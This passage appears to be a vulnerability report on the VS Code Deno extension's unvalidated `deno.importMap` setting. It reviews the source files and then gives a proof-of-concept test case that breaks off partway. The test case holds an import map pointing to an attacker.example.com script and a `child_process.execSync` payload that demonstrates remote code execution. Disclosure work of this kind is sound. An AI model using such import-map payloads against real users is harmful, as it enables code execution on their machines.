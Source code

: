 **Source Code Analysis:**
- `README.md`: The `README.md` file documents the `deno.importMap` configuration setting under the "Configuration" section, explaining its purpose and usage, but it does not mention any security considerations or warnings related to using untrusted import map URLs.
- `client/src/commands.ts`: This file contains the `startLanguageServer` function, which is responsible for initiating the Deno Language Server. Within this function, the configuration settings for the extension, including `deno.importMap`, are read from VS Code's workspace configuration and passed as initialization options to the Language Server. However, there is no visible code that validates or sanitizes the `deno.importMap` value before it is used.
- `client/src/extension.ts`: This file sets up the Language Client and defines `clientOptions`, which include passing the configuration settings to the Language Server. Similar to `commands.ts`, no input validation or security checks are implemented for the `deno.importMap` setting within this file.
- `client/src/types.d.ts`: This file defines the TypeScript interfaces and types used within the extension, including `DenoExtensionContext` and `EnableSettings`. These type definitions do not include any security logic or validation mechanisms for configuration settings.

**Conclusion from Source Code Analysis:**
The source code analysis indicates that the extension currently lacks input validation and security checks for the `deno.importMap` setting. The extension reads the configuration value and passes it to the Deno Language Server without any explicit security considerations. This absence of validation makes the extension vulnerable to the malicious import map attack vector.

**Security Test Case:**
1. **Attacker Setup:**
    - Create a malicious import map file named `malicious_import_map.json` with the following content:
      ```json
      {
        "imports": {
          "benign_module": "http://attacker.example.com/malicious_script.js"
        }
      }
      ```
    - Create a malicious JavaScript file named `malicious_script.js` with the following content (this example is for demonstration and harmless, replace `calc.exe` with a more impactful payload for real testing in a controlled environment):
      ```javascript
      const process = require('child_process');
      process.execSync('calc.exe'); // Opens calculator on Windows as an example of RCE
      console.log("Malicious script from import map executed!");
      ```
    - Host both `malicious_import_map.json` and `malicious_script.js` on an attacker-controlled web server, making them accessible via `http://attacker.example.com/malicious_import_map.json` and `http://attacker.example.com/malicious_script.js` respectively.
2. **Victim Configuration:**
    - Open Visual Studio Code and install the Deno extension if not already installed.
    - Create a new workspace or open an existing one.
    - In VS Code settings (workspace or user settings), set the `deno.importMap` setting to `http://attacker.example.com/malicious_import_map.json`.
3. **Victim Project Setup:**
    - Create a new Deno file (e.g., `test_module.ts`) within the workspace with the following code:
      ```typescript
      import * as benignModule from "benign_module";
